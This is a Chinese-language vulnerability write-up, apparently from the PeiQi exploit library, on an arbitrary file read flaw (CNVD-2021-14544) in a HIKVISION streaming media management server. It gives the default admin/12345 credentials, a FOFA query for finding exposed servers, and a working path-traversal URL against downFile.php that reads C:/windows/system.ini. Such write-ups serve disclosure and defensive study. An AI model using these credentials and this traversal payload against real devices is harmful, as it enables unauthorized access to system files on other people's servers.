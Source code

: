 ```yaml
---
title: HIKVISION 流媒体管理服务器 后台任意文件读取漏洞 CNVD-2021-14544
date: 2021-09-23 23:55:51
tags: PeiQi文库
categories:
 - 网络设备漏洞
 - HIKVISION
---
```


# HIKVISION 流媒体管理服务器 后台任意文件读取漏洞 CNVD-2021-14544

## 漏洞描述

杭州海康威视系统技术有限公司流媒体管理服务器存在弱口令漏洞，攻击者可利用该漏洞登录后台通过文件遍历漏洞获取敏感信息

## 漏洞影响

> [!NOTE]
>
> HIKVISION 流媒体管理服务器

## FOFA

> [!NOTE]
>
> title="流媒体管理服务器"

## 漏洞复现

登录页面如下， 默认账号密码为 **admin/12345**

![](/img/20210924013851545744.png)

POC如下，访问如下Url下载 system.ini文件

```
http://xxx.xxx.xxx.xxx/systemLog/downFile.php?fileName=../../../../../../../../../../../../../../../windows/system.ini
```

![](/img/20210924013852983320.png)

成功读取 **C:/windows/system.ini**

